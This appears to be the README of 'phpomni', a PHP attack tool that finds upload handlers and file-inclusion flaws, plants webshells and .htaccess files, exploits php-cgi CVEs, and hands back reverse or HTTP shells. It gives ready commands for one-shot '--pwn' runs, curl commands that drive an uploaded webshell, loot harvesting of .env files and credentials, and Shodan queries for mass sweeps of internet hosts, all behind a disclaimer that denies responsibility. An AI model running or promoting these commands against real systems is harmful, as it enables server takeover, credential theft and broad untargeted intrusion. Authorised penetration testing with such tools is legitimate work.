

<div align="center">

```
   __  __         __                            _
  / / / /__  ___ / /____ _  ___  ___ ___  (_)___
 / /_/ / _ \/ _ \/ __/  ' \/ _ \/ _ `/\ \/ / / __/
/ __  /  __/  __/ /_/_/_/_/\___/_//_//_/\_/_/\__/
\/  \/\___/\___/\__/            phpomni v11
```

**PHP surface → code execution, in one command.**
> **The author is not responsible for misuse.** You choose the targets; you carry the consequences. See [Legal](#legal).
Takes a URL. Finds upload handlers and file-inclusion parameters. Proves execution by round-tripping a marker through real PHP. Hands you a shell over TCP or plain HTTP.

[](https://www.python.org/)
[](LICENSE)
[](#installation)
[](#transports)

</div>

---

> **Authorised testing only.** Everything here is active — it uploads files, writes `.htaccess`, and triggers errors. Point it at boxes you own or have permission to poke.

---

## Contents

- [Why](#why)
- [Features](#features)
- [Installation](#installation)
- [Quick start](#quick-start)
- [Usage](#usage)
- [How it works](#how-it-works)
- [Transports](#transports)
- [Verifying a hit](#verifying-a-hit)
- [Output, loot and resuming](#output-loot-and-resuming)
- [Shodan](#shodan)
- [Troubleshooting](#troubleshooting)
- [Limitations](#limitations)
- [Legal](#legal)
- [File layout](#file-layout)
- [Contributing](#contributing)
- [Roadmap](#roadmap)
- [License](#license)

---

## Why

Most PHP one-shots fire payloads and hope. phpomni runs a fixed pipeline of probes, and **nothing counts as a hit until a unique marker comes back through executed code**. A page that merely echoes `<?php` is not a hit; a page that runs `system('id')` and returns `uid=33(www-data)` is.

It is built for the boring middle ground: sites behind a WAF, behind a VPN, behind a login, on a box where a `.php` upload gets renamed to `.php.jpg`. It is not an exploit framework — it is a fast way to find out whether a target has a live upload handler or a traversable include, and to prove it.

Two transports, because half of real targets can't call back:

- **reverse** — classic TCP callback
- **http** — commands over the webshell URL, no listener, survives NAT and VPN tunnels

`auto` tries reverse and falls through to HTTP.

---

## Features

**Transport**
- One connection per request, chunked transfer decoding, bare-LF tolerance, `Host: host:port`, IPv6 literals
- 3-hop same-host redirect following
- Jittered per-request delay, configurable retry, HTTP CONNECT and SOCKS5 proxy support
- Cookie jar with automatic `Set-Cookie` capture; first-class `-H`, `--cookie`, `--auth`

**Discovery**
- 120-entry handler wordlist, `-w` to override
- Upload form parsing across double-quoted, single-quoted and bare attributes, including hidden CSRF fields
- phpinfo / `.env` / `.git` / `composer.json` harvesting with ini extraction
- Placeholder-page detection (nginx, NPM, Apache, IIS) so dead targets cost seconds, not minutes
- `--vhost` for reverse-proxy front ends

**Upload**
- 10 extension aliases, trailing-dot and trailing-space, null-byte and double-extension variants
- `GIF89a` MIME polyglot with `image/gif` part content-type
- Returned-path parsing from JSON keys and `href` attributes before falling back to directory brute force
- Optional `.htaccess` / `.user.ini` planting to defeat strict whitelists
- Per-target profile gates the pipeline: no `file_uploads`, no upload prong

**LFI**
- `php://filter` base64 source reads (proof *and* recon)
- `convert.iconv` filter chains for no-write RCE
- `data://`, `expect://`, `zip://`, `phar://`
- Traversal depth walking, log and `/proc/self/environ` poisoning
- `session.upload_progress` poisoning with keepalive thread and both serialize handlers

**Post-execution**
- FastCGI client to reach the FPM socket and bypass `disable_functions`
- `open_basedir` escape via `glob://` and `chdir` + `ini_set`
- CVE-2012-1823 and CVE-2024-4577 (`%AD` argument-injection variants)
- Base64 command channel with a five-function fallback chain
- Numbered action menu with pty upgrade, SUID, credential and container sweeps

**Operations**
- Click-through wizard — no flags required
- JSONL output, resume file, per-host loot directory
- `--self-test` covering parsers, framing, multipart and chain construction

---

## Installation

Python 3.11 or newer.

```bash
git clone https://github.com/<you>/phpomni.git
cd phpomni
python3 -m pip install -r requirements.txt
chmod +x phpomni.py
```

`requirements.txt`:

```
rich>=13.0
PySocks>=1.7
```

Both are optional. Without `rich` the tool falls back to plain output; without PySocks, SOCKS proxies error out and HTTP proxies still work.

Place `wordlist.txt` next to the script — it is auto-loaded and `-w` overrides it.

Verify the install:

```bash
python3 phpomni.py --self-test
```

All assertions must pass before you trust a run.

---

## Quick start

```bash
python3 phpomni.py
```

That is the whole thing. You get numbered menus with defaults marked `*` — press Enter to accept. It asks what to attack, how the shell should come back, whether there's a login, and how loud to be, then shows a summary and waits for confirmation.

Behind a VPN it detects it, warns, and defaults the transport to HTTP.

**One-liner, no questions:**

```bash
python3 phpomni.py --pwn https://target.example/
```

---

## Usage

```
phpomni.py [OPTIONS] [URL...]
```

### Targets

| Flag | Meaning |
|---|---|
| `URL...` | One or more targets |
| `-f, --file PATH` | File of URLs, one per line, `#` comments |
| `--shodan QUERY` | Pull targets from Shodan |
| `--shodan-key KEY` | API key, or `SHODAN_API_KEY` |
| `--limit N` | Max Shodan results (default 50) |
| `--vhost HOST` | Override the `Host` header |

### Modes

| Flag | Meaning |
|---|---|
| `--wizard` | Force the guided setup |
| `--pwn` | Everything on, auto `--lhost`/`--lport` |
| `--plan` | Print the per-target pipeline before running |
| `--wrap` | Print a filter chain and exit |
| `--self-test` | Run assertions and exit |

### Shell transport

| Flag | Meaning |
|---|---|
| `--transport {auto,rev,http}` | Default `auto` |
| `--lhost IP` | Callback address; auto-detected public IP if omitted |
| `--lport N` | Callback port, `0` for ephemeral |
| `--no-listener` | Don't bind a listener |

### Auth and network

| Flag | Meaning |
|---|---|
| `-H, --header 'K: V'` | Repeatable |
| `--cookie 'k=v; k2=v2'` | Parsed into the jar |
| `--auth user:pass` | HTTP Basic |
| `--proxy URL` | `http://` or `socks5://` |
| `--timeout SEC` | Default 8 |
| `--delay LOW-HIGH` | Jitter range, default `0.05-0.25`, `0` to disable |
| `--retries N` | Default 1 |
| `--threads N` | Mass mode only, default 8 |
| `--strict-ssl` | Verify certificates |

### Behaviour

| Flag | Meaning |
|---|---|
| `-w, --wordlist PATH` | Handler list |
| `--no-discover` | Skip the wordlist |
| `--no-upload` / `--no-lfi` | Disable a prong |
| `--rce-only` | Stop at first execution |
| `--config-upload` | Plant `.htaccess` / `.user.ini` |
| `--force` | Run even on a default page |
| `--cmd 'CMD'` | Command used for proofs |

### Output

| Flag | Meaning |
|---|---|
| `--json` | JSONL, one object per target |
| `--resume PATH` | Skip and record completed targets |
| `--loot DIR` | Loot directory, default `loot` |
| `--plain` | No dashboard |
| `--quiet` | Hits only |
| `--no-color` / `--no-banner` | Cosmetics |
| `--debug` | Tracebacks |

### Examples

```bash
# Single target, everything on
python3 phpomni.py --pwn https://target.example/

# Behind a login, HTTP shell, gentle
python3 phpomni.py https://target.example/ \
  --cookie "PHPSESSID=abc123" --transport http --delay 0.3-0.8

# Behind a reverse proxy
python3 phpomni.py http://203.0.113.9 --vhost app.example.com

# Mass sweep, resumable, machine-readable
python3 phpomni.py -f sites.txt --pwn --threads 20 --json out.jsonl --resume done.txt

# Plan only
python3 phpomni.py https://target.example/ --plan --no-upload
```

Exit code is `0` if any shell was obtained, `1` otherwise.

---

## How it works



Every prong follows the same contract: send a probe, look for a marker that only executed code can produce, and only then record a `hard` finding. The pipeline is derived from the target's own phpinfo — no `allow_url_include` means no `data://` and no `php-cgi`; `session.upload_progress.enabled=0` skips session poisoning entirely.

A `LEAK` finding never stops the pipeline. A phpinfo page does not mean the run is over.

---

## Transports

**HTTP** — the webshell is the shell. Commands go out as base64 in `?c=` or `&c=`, output comes back between `=B=` and `=E=` markers. No listener, no NAT, no port forwarding. Works from behind anything.

```bash
curl -s "$SHELL_URL" --data-urlencode "c=$(printf 'id' | base64 -w0)"
```

Limits: one request per command, no TTY, so `sudo`, `vim` and anything interactive will hang. Every command is an access-log line.

**Reverse** — a TCP callback. Faster, interactive, and the only way to get a real pty. Needs inbound reachability.

### Mullvad and other VPNs

Mullvad blocks inbound by default, so a reverse shell dies silently. Two options:

1. **HTTP transport** — pick it in the wizard, or `--transport http`. Nothing to configure.
2. **Port forwarding** — enable it in the Mullvad app for your relay, reconnect, and the app shows a port. The wizard picks it up automatically; manually, pass `--lport <port> --lhost <your-mullvad-exit-ip>`.

`auto` detects a Mullvad interface or exit range and falls back to HTTP when no callback arrives within three seconds.

---

## Verifying a hit

Never trust a hit without reproducing it.

```bash
SHELL='https://target.example/uploads/phpomni.php'
curl -s "$SHELL" --data-urlencode "c=$(printf 'id; uname -a' | base64 -w0)"
```

```
=B=
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux web01 5.15.0-91-generic #101-Ubuntu SMP x86_64 GNU/Linux
=E=
```

Then confirm the marker alone still returns `PHPOMNI_<id>_SHELL` — a handler that echoes the file back without parsing it will return `<?php` too.

---

## Output, loot and resuming

Default output is a per-target report with a plain-English verdict and a coloured finding list. `--json` emits one JSONL object per target:

```json
{"target":"https://x/","os":"unix","sapi":"apache","php":"8.1.2","shell":"https://x/uploads/phpomni.php","hard":true,"findings":[...]}
```

Loot lands in `loot/<host>/`: phpinfo dumps, `.env`, `.git/config`, every source file and sensitive file read through LFI. `--loot ''` disables it.

`--resume FILE` appends completed targets and skips them on the next run, so a 500-host sweep that dies at 300 continues where it stopped.

---

## Shodan

`http.html` matches page substrings. Useful openers:

```
http.component:"PHP" http.html:"multipart/form-data" port:8080 country:US
http.title:"phpinfo()"
http.title:"Adminer"
http.html:"index.php?page="
```

Scope with `country:`, `org:`, `asn:`, `net:`, `port:`, `has_screenshot:true`. Free keys return roughly 100 results per query; `--limit` beyond that needs a paid key. The index lags, so expect dead hits — that is what `--resume` is for.

```bash
python3 phpomni.py --shodan 'http.component:"PHP" http.html:"multipart/form-data"' \
  --limit 100 --pwn --json out.jsonl --resume done.txt --threads 20
```

---

## Troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| `0/1 shells`, no findings, ~200s | Default page (nginx, NPM, IIS) | Find the real hostname, use `--vhost` |
| `no handler discovered` | No upload form in the wordlist | Supply `-w` with app-specific paths |
| Upload succeeds, GET returns `<?php` | Extension not mapped to PHP | `--config-upload` |
| Shell returns the login page | Session expired | Re-auth, re-pass `--cookie` |
| `listener bind failed` | Port in use | `--lport 0` |
| Reverse never connects | VPN or firewall | `--transport http` |
| Everything 403s mid-run | Rate limited | Lower to `--delay 0.3-0.8`, `--threads 4` |
| `PySocks required` | SOCKS without the dep | `pip install PySocks` |
| Self-test failures after an edit | Regression | Read the failing assertion before trusting a run |

`--debug` prints tracebacks. Prongs swallow exceptions by default so one failure doesn't abort a target.

---

## Limitations

- **The filter-chain table is the weakest part.** `_PFX` is the published `convert.iconv` mapping; a wrong entry fails silently and the run falls through to the next prong. It never produces a false positive, but it can miss. If a chain dies on a box where the include demonstrably works, that table is what to fix.
- **`--config-upload` clobbers `.htaccess`.** No backup, no restore. On a live site, pull a copy first.
- **`--pwn` is loud.** `--config-upload` on, and at `--loud` the delay is zero. A soft-404 target can eat hundreds of requests.
- **No `data://` or `php-cgi` without `allow_url_include`.** The profile gates them correctly, which means they're absent on hardened boxes.
- **HTTP transport has no TTY.** Interactive binaries hang.
- **Detection is heuristic.** `detect_sapi` reads `Server` and `X-Powered-By`; a stripped header means `unknown` and a shorter pipeline.
- **No unix-socket FPM access from your machine.** The FastCGI client is PHP that runs on the target.
- **WordPress is not special-cased.** `wp-admin/admin-ajax.php` is in the wordlist; the rest is generic.
- **Single-writer resume file.** Two concurrent runs against one file will interleave.

---

## Legal

**You are responsible for where you point this. The author is not.**

phpomni is active. It uploads files, writes `.htaccess` and `.user.ini`, sends POST bodies to unknown endpoints, and can leave a webshell sitting on a server. None of that is guaranteed to be harmless, reversible, or noticed. If a site breaks after a run, that is on the operator, not on this repo.

**No warranty, no liability.** The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose and noninfringement. In no event shall the author or copyright holder be liable for any claim, damages or other liability, whether in an action of contract, tort or otherwise, arising from, out of or in connection with the software or the use or other dealings in the software.

**Specifically, the author accepts no responsibility for:**

- Testing a target without permission
- Data loss, corruption, or downtime caused by a run
- An overwritten or broken `.htaccess`
- A webshell left behind and later found — or later exploited by someone else
- Credentials, tokens, or customer data captured into `loot/`
- Terms-of-service violations on hosted platforms (shared hosting, WordPress.com, Shodan's API)
- Legal exposure in any jurisdiction, including under computer-misuse statutes
- Anything a third party does after being handed the output

**Practical risk levels**, so you can judge before you run:

| Mode | Touches | Risk |
|---|---|---|
| `--plan` | Nothing | None — no requests beyond one GET |
| `--no-upload --no-lfi` | Nothing | Read-only |
| default | Uploads files to writable dirs | Low, leaves artefacts |
| `--config-upload` | Rewrites `.htaccess` / `.user.ini` | Medium — can break a live site |
| `--pwn` | All of the above, delay 0 | High — loud and persistent |

If a client cares, send them `--plan` output first and get a written yes before the run. Clean up after yourself: the uploaded files are named `phpomni*` and the config lines are `AddType` / `AddHandler` / `auto_prepend_file` — both are easy to spot and remove.

**Scope of authorisation is your problem to establish**, not the tool's to guess. A successful shell is not evidence you were allowed to take one.
## File layout

```
phpomni.py          # everything
wordlist.txt        # handler paths, auto-loaded, -w overrides
requirements.txt    # rich, PySocks
loot/               # per-host captures (gitignored)
```

Single file on purpose — it drops onto a jump box with `scp` and no package install.

Suggested `.gitignore`:

```
loot/
__pycache__/
*.pyc
done.txt
*.jsonl
```

---

## Contributing

1. Fork, branch, commit.
2. `python3 phpomni.py --self-test` must pass. New parsers get new assertions.
3. Keep the marker contract: a prong that records `hard=True` must have round-tripped a marker.
4. New prongs get a `case` arm in `run_target` and an entry in `plan_for`, gated on profile.
5. Don't add a dependency that isn't optional.

Bug reports: include the `--debug` traceback, the target's server headers, and what the tool decided.

---

## Roadmap

- [ ] `.htaccess` backup and restore
- [ ] Runtime verification of filter chains against the target
- [ ] Zip/phar upload with `zip://` inclusion
- [ ] GraphQL and REST media-endpoint handlers in the default wordlist
- [ ] `--force-os` for stripped-header targets
- [ ] Concurrent shell pool instead of a single interactive session
- [ ] `--chain-table PATH` to swap in a corrected iconv mapping

---

## License

MIT. See [LICENSE](LICENSE).

## Credits

Built on public prior art: the `convert.iconv` filter-chain technique, the `session.upload_progress` poisoning pattern, and the php-cgi argument-injection lineage from CVE-2012-1823 through CVE-2024-4577.
